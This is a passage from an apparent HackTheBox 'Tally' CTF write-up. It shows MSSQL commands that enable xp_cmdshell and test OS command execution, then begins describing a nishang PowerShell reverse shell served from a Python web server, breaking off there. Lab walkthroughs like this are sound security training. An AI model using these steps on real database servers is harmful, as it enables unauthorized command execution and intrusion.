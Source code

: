 ```mssql
# This turns on advanced options and is needed to configure xp_cmdshell
sp_configure 'show advanced options', '1'
RECONFIGURE
#This enables xp_cmdshell
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```

![enable-30](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Tally/img/enable-30.png)


Let's run a quick test to see if we can run OS commands:

```mssql
EXEC master..xp_cmdshell 'whoami'
```

![exec-31](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Tally/img/exec-31.png)


Looks like we can! 


From here we can use a common setup to get a shell using [nishang](https://github.com/samratashok/nishang)'s `Invoke-PowerShellTcp.ps1` script. 


After downloading the script make sure to invoke it at the end accordingly:

![invoke-32](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Tally/img/invoke-32.png)


Then host this file using a python web server:
